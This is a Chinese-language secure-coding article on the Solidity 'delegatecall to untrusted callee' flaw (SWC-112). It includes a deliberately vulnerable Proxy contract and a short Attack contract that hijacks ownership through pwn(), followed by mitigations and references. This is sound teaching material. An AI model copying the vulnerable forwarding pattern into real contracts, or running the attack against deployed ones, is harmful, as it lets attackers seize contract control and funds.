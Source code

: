 # 委托调用(Delegatecall)到不可信的被调用方

`Delegatecall` 是消息调用的一种特殊变体。它几乎与常规消息调用相同，区别在于目标地址在调用合约的上下文中执行,并且`msg.sender`和`msg.value`保持不变. 简而言之，`delegatecall`允许其他合约修改调用合约的存储.

由于`delegatecall`对合约有很大的控制力，因此必须仅在与可信合约(如你自己的合约)交互时使用. 如果目标地址来自用户输入，务必确保它是一个可信的合约.

## 示例

考虑以下错误使用`delegatecall`导致漏洞的合约:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.16;

contract Proxy {
    address public owner; // 合约所有者地址

    constructor() { // 构造函数，初始化合约所有者为部署合约的地址
        owner = msg.sender;
    }

    // 转发函数,使用delegatecall将调用转发到指定的合约地址(callee)
    // 参数:
    // callee - 被调用合约的地址
    // _data - 要调用的函数及其参数的数据
    function forward(address callee, bytes calldata _data) public { 
        require(callee.delegatecall(_data), "Delegatecall failed"); // 使用delegatecall调用目标合约，并确保调用成功
    }
}

contract Target {
    address public owner; // 合约所有者的地址

    function pwn() public { // pwn 函数，恶意者调用该函数后，会讲所有者改为调用者
        owner = msg.sender;
    }
}

contract Attack {
    address public proxy; // 代理合约的地址

    constructor(address _proxy) { // 构造函数，初始化代理合约的地址
        proxy = _proxy;
    }

    // 攻击函数, 利用代理合约将pwn函数调用转发到目标合约
    // 参数:
    // target - 目标合约的地址
    function attack(address target) public {
        Proxy(proxy).forward(target, abi.encodeWithSignature("pwn()")); // 通过代理合约的forward函数调用目标合约的pwn函数
    }
}
```

在此示例中，`Proxy`合约使用`delegatecall`将它接收到的任何调用转发到用户提供的地址. `Target`合约包含一个`pwn()`函数调用，该函数会讲合约的所有者改为调用者.

`Attack`合约利用这种设置，通过调用Proxy合约的`forward`函数，传递`Target`合约的地址和编码后的函数调用pwn(). 这导致`Proxy`合约的存储被修改, 具体来说，`owner` 变量被设置为攻击者的地址.

## 缓解措施

为了缓解与不可信被调用方使用`delegatecall`相关的风险，可考虑以下策略:

1. **白名单可信合约**: 确保用于`delegatecall`的目标地址是你控制的合约，或是经过验证和信任的合约列表中的合约.

2. **限制委托调用的范围**: 仅在特定的、可控的操作中使用`delegatecall`. 除非绝对必要，否则避免将其作为通用函数暴露.

## 参考资料

- [SWC Registry: SWC-112](https://swcregistry.io/docs/SWC-112)
- [Solidity Documentation: Delegatecall](https://docs.soliditylang.org/en/latest/introduction-to-smart-contracts.html#delegatecall-and-libraries)
- [Sigma Prime: Solidity Security](https://blog.sigmaprime.io/solidity-security.html#delegatecall)

```markdown

```

- [Ethereum Stack Exchange: Difference Between Call, Callcode, and Delegatecall](https://ethereum.stackexchange.com/questions/3667/difference-between-call-callcode-and-delegatecall)
